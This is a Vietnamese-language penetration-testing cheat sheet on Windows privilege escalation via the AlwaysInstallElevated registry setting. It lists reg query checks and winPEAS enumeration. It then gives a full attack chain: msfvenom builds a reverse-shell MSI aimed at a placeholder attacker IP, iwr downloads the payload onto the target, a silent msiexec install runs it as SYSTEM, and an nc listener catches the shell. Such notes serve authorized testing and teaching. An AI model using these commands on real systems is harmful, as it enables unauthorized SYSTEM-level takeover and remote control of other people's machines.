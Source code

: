 # AlwaysInstallElevated

## Điểm chính khai thác

* Khai thác cấu hình **AlwaysInstallElevated** trong registry (HKLM hoặc HKCU) để chạy tệp MSI với đặc quyền **NT AUTHORITY\SYSTEM**, cho phép leo thang đặc quyền từ tài khoản người dùng thông thường.
* Cả hai khóa registry `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer` và `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer` phải có giá trị `AlwaysInstallElevated=1` để khai thác thành công.
* Công cụ như **SharpUp** và **winPEAS** tự động hóa việc phát hiện cấu hình AlwaysInstallElevated, giúp xác định nhanh các hệ thống dễ bị tấn công.
* Yêu cầu khả năng thực thi `msiexec` để kích hoạt payload.

## Các bước khai thác

### Kiểm tra lỗ hổng

#### Xác định mục tiêu tiềm năng

Kiểm tra khóa registry HKLM để xác định xem AlwaysInstallElevated có được bật cho tất cả người dùng:

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Kiểm tra khóa registry HKCU để xác định xem AlwaysInstallElevated có được bật cho người dùng hiện tại:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Sử dụng winPEAS để liệt kê cấu hình AlwaysInstallElevated:

```
winPEAS.exe
```

#### Kiểm tra quyền truy cập hoặc cấu hình

#### Phân tích ngữ cảnh thực thi

Kiểm tra phiên bản hệ điều hành để đảm bảo khả năng tương thích với msiexec và payload MSI:

```
systeminfo
```

Output mong đợi: Phiên bản Windows, ví dụ: `Windows 10 Build 19044`

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Tạo payload MSI độc hại để thiết lập reverse shell:

{% code overflow="wrap" %}

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali_ip> LPORT=443 -a x64 --platform Windows -f msi -o shell.msi
```

{% endcode %}

Tải payload MSI lên thư mục tạm trên mục tiêu:

```
iwr -Uri http://<kali_ip>/shell.msi -OutFile .\shell.msi
```

#### Áp dụng khai thác

Chạy payload MSI với msiexec để thực thi với đặc quyền SYSTEM:

```
msiexec /quiet /qn /i .\shell.msi
```

Chờ kết nối reverse shell:

```
nc -lvnp 443
```
